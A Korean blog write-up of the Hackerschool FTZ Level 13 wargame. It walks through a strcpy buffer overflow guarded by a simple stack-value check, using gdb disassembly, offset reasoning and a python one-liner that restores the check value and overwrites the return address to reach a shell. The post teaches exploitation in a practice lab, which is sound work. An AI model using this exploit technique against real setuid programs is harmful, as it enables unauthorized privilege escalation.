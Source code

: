 ```yaml
---
date: '2022-10-03'
before : '2022-10-02'
after : '2022-10-04'
title: '해커스쿨 FTZ 레벨 13'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

또 다시 나온 BOF 문제이다. 하지만 이번 문제는 아주 조금 더 어려운게, 중간에 long i라는 값을 끼워넣어서, 이 값이 변조되었을 경우는 프로그램의 실행을 거부하는 형식의, 아주 기초적인 방어를
하고 있다. 이런 경우에는 그냥 Dummy코드를 짤 때, 저 long i 변수의 정확한 위치를 파악해서 Dummy코드 사이 i값이 오는 위치에 i 값을 정확하게 넣어주면 된다. 바로 코드로 들어가보자.

### 1. Level 13

일단 hint를 확인해 보면 attackme의 소스코드가 다음과 같이 나온다. 

```
#include <stdlib.h>

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```

"들어가기 전에" 에서 설명했지만, 이번에는 i값이 위조되었는지를 확인하는 코드가 if 문에 작성되어있다. 따라서 우리의 더미 데이터에도 i의 본래 값이 들어가있어야 한다.


얼른 카피해서 test 파일을 만들고 gdb로 disassemble 해보자. disassemble 하니 다음과 같은 어셈블리 코드가 실행되었다는 것을 알 수 있다.

```
0x080483c8 <main+0>:    push   ebp
0x080483c9 <main+1>:    mov    ebp,esp
0x080483cb <main+3>:    sub    esp,0x418
0x080483d1 <main+9>:    and    esp,0xfffffff0
0x080483d4 <main+12>:   mov    eax,0x0
0x080483d9 <main+17>:   sub    esp,eax
0x080483db <main+19>:   mov    DWORD PTR [ebp-12],0x1234567
0x080483e2 <main+26>:   sub    esp,0x8
0x080483e5 <main+29>:   push   0xc16
0x080483ea <main+34>:   push   0xc16
0x080483ef <main+39>:   call   0x80482e8 <setreuid>
0x080483f4 <main+44>:   add    esp,0x10
0x080483f7 <main+47>:   cmp    DWORD PTR [ebp+8],0x1
0x080483fb <main+51>:   jle    0x8048417 <main+79>
0x080483fd <main+53>:   sub    esp,0x8
0x08048400 <main+56>:   mov    eax,DWORD PTR [ebp+12]
0x08048403 <main+59>:   add    eax,0x4
0x08048406 <main+62>:   push   DWORD PTR [eax]
0x08048408 <main+64>:   lea    eax,[ebp-1048]
0x0804840e <main+70>:   push   eax
0x0804840f <main+71>:   call   0x8048308 <strcpy>
0x08048414 <main+76>:   add    esp,0x10
```
확인해 보니 우리의 1024크기의 배열은 ebp-1048번째 위치에 생성되었고, i의 값은 ebp-12의 위치에 생성되었다. 이를 이용해 대략적인 레지스터의 스택을 파악해볼 수 있다. 다음의 그림을 그려보았다.

![register_outlook](../contentImages/Level13.png)


쉘코드를 짜고, 주소를 확인해보니 다음과 같다 :
```
./getenv => 0xbffffc1a => \x1a\xfc\xff\xbf // 원래 주소를 little endian으로 변환했다.
```
환경변수의 생성과 주소 파악하는법에 대해 모른다면 다음의 글을 참조하자! : [FTZ Level 12](<https://hosahn.github.io/221002/>)


이제 필요한 도구가 모두 모였다. attackme 함수를 실행하고, argv로 다음과 같은 문장을 넘겨주자.

```
 ./attackme `python -c 'print "\x90"*1036+"\x67\x45\x23\x01"+"\x90"*12+"\x1a\xfc\xff\xbf"'`
```
설명하자면 1036개의 NOP 더미를 넘기고, ebp-8시점에서 i의 주소값을 정확히 정의했으며, 그 후에 또 12개의 NOP 더미를 넘기고 나서 shell코드의 주소를 넘겨주었다.


이해가 가지 않는다면 위의 그림을 다시한번 확인해보자. 실행시키니 shell을 얻을 수 있었다. my-pass로 비밀번호를 확인하였다.


비밀번호 : what the n(여러분들이 아는 그 후드의 단어..) want? (FTZ가 미친듯 하다. 내 외국인 친구들도 보는 블로그라 단어를 쓰진 않겠다..) 

---
## Source

- 해커스쿨 FTZ
- Me!